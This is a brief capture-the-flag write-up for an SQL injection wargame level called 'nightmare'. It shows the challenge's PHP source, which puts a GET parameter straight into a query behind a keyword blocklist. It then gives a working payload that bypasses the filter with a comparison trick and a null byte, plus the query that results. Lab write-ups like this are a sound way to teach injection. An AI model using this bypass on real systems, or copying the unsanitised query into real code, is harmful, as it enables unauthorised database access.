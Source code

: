 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

-> select * from table where column=''<1;
   will dump the first row of the table
-> select * from table where column=''<1;%00
   will ignore all the patterns after null

PAYLOAD: ?pw=%27)<1;%00
OUTPUT: select id from prob_nightmare where pw=('')<1;') and id!='admin'

Nightmare clear
